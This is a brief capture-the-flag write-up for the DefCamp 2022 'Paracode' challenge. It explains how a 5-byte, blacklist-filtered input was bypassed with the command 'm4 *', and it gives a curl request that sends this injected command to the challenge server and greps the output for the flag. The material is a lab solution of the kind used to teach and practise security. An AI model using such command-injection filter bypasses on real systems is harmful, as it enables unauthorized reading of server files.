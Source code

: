 DefCamp 2022 Paracode

<b>Note:</b> Our limit is 5 bytes without the string containing any of the combo in the array provided in the index.php. I went through and sorted out all 2 letter Linux commands that can
output all input. I came to the conclusion that m4 works well, with a wild card.
```
curl -X GET "http://34.159.7.96:32210/?start=m4+*" 2>&1 | grep '$flag' | sed 1q
```
